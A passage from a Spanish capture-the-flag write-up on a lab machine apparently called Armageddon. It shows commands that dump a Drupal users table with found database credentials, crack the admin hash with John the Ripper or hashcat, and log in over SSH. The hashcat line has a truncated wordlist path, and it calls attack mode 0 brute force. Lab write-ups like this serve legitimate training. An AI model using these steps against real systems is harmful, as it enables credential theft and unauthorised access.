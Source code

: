 Ejecutaremos una nueva consulta pero esta vez sobre la tabla `users`, en definitiva sería el siguiente comando:

```bash
mysql -u drupaluser -pCQHEy@9M*m23gBVj -h localhost -D drupal -e "select * from users" 
```

Observamos que dicha tabla tiene el hash del usuario **brucetherealadmin**.

![](<../assets/images/posts/2025-04-08-armageddon/Pasted image 20241224175057.png>)

Una vez tenemos el hash en un archivo archivo ejecutaremos el siguiente comando para romper el hash con **johntheripper**:

```bash
john hash --wordlist=/usr/share/wordlists/rockyou.txt
```

![](<../assets/images/posts/2025-04-08-armageddon/Pasted image 20241224175218.png>)

> En vez de usar **johntheripper** podemos usar **hashcat** pero dicha herramienta es un poco más complicada ya que debemos de identificar el tipo de hash. El hash podemos identificarlo de varias formas: 
> - Documentación oficial de **hashcat** vía web: [Hashcat - example-hashes](https://hashcat.net/wiki/doku.php?id=example_hashes).
> - Documentación oficial de **hashcat** vía terminal: `hashcat --example-hashes`.
> - Herramienta web que lo detecta automáticamente: [hashes.com](https://hashes.com/en/tools/hash_identifier).
> 
> Una vez localizado el tipo de hash procederemos a romperlo usando **hashcat** de la siguiente forma donde hemos de indicar el modo (**7900**) y el tipo de ataque (**fuerza bruta - 0**):
> `hashcat -m 7900 -a 0 -o cracked.txt hash /usr/share/wordlists/rockyou.tx`

Una vez hemos conseguido romper el hash intentaremos acceder a través de **ssh** de la siguiente forma:

```bash
ssh brucetherealadmin@10.10.10.233
```

![](<../assets/images/posts/2025-04-08-armageddon/Pasted image 20241224180307.png>)
